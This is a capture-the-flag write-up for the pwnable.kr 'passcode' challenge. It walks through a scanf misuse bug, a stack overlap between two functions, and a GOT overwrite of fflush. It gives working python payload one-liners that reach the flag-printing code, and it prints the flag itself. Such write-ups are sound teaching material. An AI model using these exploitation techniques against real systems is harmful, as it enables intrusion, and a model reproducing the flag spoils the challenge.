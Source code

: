 # Passcode

### Description
Mommy told me to make a passcode based login system.
My initial C code was compiled without any error!
Well, there was some compiler warning, but who cares about that?

ssh passcode@pwnable.kr -p2222 (pw:guest)
### passcode.c
```
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);
        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```
### Solution
The first and obvious approach is to execute passcode and input 338150 and 13371337 but it seems does not work:
![image](https://github.com/user-attachments/assets/4ad5ed61-c574-4870-a534-c3fec78269a1)

We can easily notice in the source code that instead of an address, it was the value there so the scanf malfunction. 
```
scanf("%d", passcode1);
```

Now, we gotta disassembly the code to look what we can do with it, the first thing to be checked out is the function welcome.

![image](https://github.com/user-attachments/assets/9d4918ea-5d73-475d-a28d-30f515993458)

It seems quite normal and there are nothing much to be exploited so we should move on to the function login:

![image](https://github.com/user-attachments/assets/87a3aec6-5842-4e43-999c-8e17c8554f68)

After a while messing with the code, i realized that the value passcode is stored at $ebp-10, if we can overwite this to be some kinds of address, it must be the solution to all this shit. But, how can we overwrite that shit, the solution is located in the function ``` welcome ```.

![image](https://github.com/user-attachments/assets/9ccce66d-1eaa-4dc2-96dc-4e185c7773e3)

Look at the stack frame of ``` welcome ``` and ``` login ``` we can see that the difference between the 2 top of stack are 96 byte so if we write 100 byte to the name, supprisingly we will have 4 bytes left even after the function ``` welcome ``` is no longer running, that is the default value of ``` passcode1 ```. To backup our theory, lets check this out:

![image](https://github.com/user-attachments/assets/4a0e9d95-3a8c-4d1d-90d1-7f89e7c990a1)

The result show that the theory was right, so the next thing is to do the same with ``` passcode2 ``` right? No, we don't have enough ``` scanf ``` to do such shit, we gotta do something different.

Because we can only use 1 ``` scanf ``` and overwrite 1 thing, i started thinking that this shit would be so cool if we can just jump directly to this line of code ``` system("/bin/cat flag"); ```. If we want to do that, we gotta overwrite a ```jump``` instruction, where can we find such thing? The answer that there are bunch of them in this code:

![image](https://github.com/user-attachments/assets/6dd39ec1-a8c5-4b7b-b121-3aa77a6228af)

We can use the ```jump``` inside those ```call``` instruction, we just have to choose `. So i choose the closest one which is ```fflush```, let's dissasembly it to see what inside it:

![image](https://github.com/user-attachments/assets/c72ebd85-b998-43b2-b51b-8e8c20cbfdbe)

The address ```0x804a004``` seems pretty nice cuz it does not contain any weird character so now we just have to write it to the stack and use the ```scanf``` to put the address of ```system("/bin/cat flag");``` on it.

![image](https://github.com/user-attachments/assets/96f79fa1-dbc3-4b92-bd92-eb6edfd773c2)

So i came up with this shitty python command:
```
python -c "print('h'*96+'\x01\xa0\x04\x08'+'\xea\x85\x04\x08')" | ./passcode
```
And the result:

![image](https://github.com/user-attachments/assets/5a59ca58-6493-4503-baa1-756dc1e0fa57)

Shit seems wrong because i directly put the byte in scanf so it will regconize those shit as some weird character not a fucking decimal and skip it so i gotta put that address as a decimal to solve this shit:

```
python -c "print('\x01'*96+'\x04\xa0\x04\x08'+'134514147')" | ./passcode
```

And the result:

![image](https://github.com/user-attachments/assets/8bc2181e-3c6e-4300-8632-3a9b226d644a)

And there we have it, the flag:
```
Sorry mom.. I got confused about scanf usage :(
```
